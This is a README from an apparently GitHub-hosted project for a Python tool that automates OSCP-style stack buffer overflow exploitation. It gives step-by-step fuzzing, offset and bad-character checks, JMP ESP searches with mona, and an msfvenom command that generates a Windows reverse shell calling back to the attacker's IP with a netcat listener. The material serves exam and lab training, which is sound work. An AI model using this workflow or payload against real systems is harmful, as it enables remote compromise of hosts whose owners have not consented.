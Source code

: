 # Stack-Buffer-Overflow

An "All in One" python script for OSCP style stack based buffer overflows.

![image](https://user-images.githubusercontent.com/41350723/173417707-2753ae6f-1bb2-4858-a1a5-a38d7cdc1fb4.png)


## Before you begin.
* Start the vulnerable app via Immunity Debugger or attach it to Immunity 
* Change IP and Port in bof.py
* Connect using netcat and see if you get a banner or an options menu.
* If you do, uncomment s.receive(1024) on line 52.
* If you have to prefix your buffer value with a command, set prefix value otherwise leave it as empty string.
* If after sending a command you get any kind of reply, uncomment s.receive(1024) on line 55.

![image](https://user-images.githubusercontent.com/41350723/173417177-d499ac6e-a14c-4108-a075-836d1023b784.png)

##  Option 1 -- Fuzzer
* Execute and make a note of the largest number of bytes that were sent.
* Generate a cyclic pattern of same length as the bytes that crashed the server.
  
  `msf-pattern_create -l <Bytes>`

* Paste the cyclic string into payload variable in bof.py
    
## Option 2 -- Get Offset
* Restart the app in Immunity Debugger
* Execute Option 2
* In Immunity Debugger, run the following mona command

    `!mona findmsp -distance <bytes>`    <-- Change to same length as the pattern

* In the output you should see a line which states:

    `EIP contains normal pattern : ... (offset XXXX)`

* Update bof.py and set the offset variable to this value

## Option 3 -- Verify Offset
* Restart the app in Immunity Debugger
* Execute Option 3
* The EIP register should now have 4 B's (i.e. 42424242).

## Option 4 -- Generate BadChars
* Generate a bytearray using mona, and exclude the null byte (\x00).

    `!mona bytearray -b "\x00"`

* Note-down the path of the bytearray.bin
* Execute Option 4 to generate a string of bad chars that is identical to the bytearray
* Update bof.py and change the payload variable to this string

## Option 5 -- Check BadChars
* Restart the app in Immunity Debugger
* Execute Option 5
* Make a note of the ESP register address and use it in the following mona command:

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>` <-- modify path and ESP address

* A popup should appear labelled "mona Memory comparison results".
  * The first badchar in the list should be the null byte (\x00).
  * Make a note of any others.
* Generate a new bytearray in mona including these new badchars along with \x00.
    
    `!mona bytearray -b "\x00"   <-- Add the other badchars`

* In bof.py remove the new badchars from paload variable.
* Restart the app in Immunity Debugger
* Run Option 5 again
* Run the mona command agian (Check ESP register, it might have changed)

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>`    <-- modify path and ESP address

* Repeat these steps until the results status returns "Unmodified"

## Option 6 -- Exploit
* With the Application either running or in a crashed state, run one of the following mona commands.
Make sure to add all the badchars you identified (including \x00):
  
  * Find JMP ESP - inside the main executable
	  
    `!mona jmp -r esp -cpb "\x00"`    <-- Add the other badchars identified
	    
  * Find JMP ESP - inside one of the DLLs
	  
    `!mona modules`
    * We need to find a .dll were Rebase, SafeSEH, ASLR, NXCompat are set to False. When you find it, run the command below to search for a JMP ESP (FFE4), inside the dll.
	
	  `!mona find -s "\xff\xe4" -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
	  
      or
	
      `!mona find -s 'jmp esp' -type instr -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
      
    * This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
  * Choose an address and update bof.py by setting the "EIP" variable to the address, written backwards (ittle endian).
    
    `For example if the address is 01020304 in Immunity, write it as EIP = "\x04\x03\x02\x01" in bof.py.`

* Run the follwing msfvenom command to generate a reverse shell
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`       <-- Add the other badchars

* Update bof.py by pasting the generated C code strings into shellcode variable using the following notation:
    ```
    shellcode = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")
    ```
      Notice there is no semicolon ; at the end
* Adjust the nopsled variable if needed
* Execute Option 6 after setting up a netcat listner.

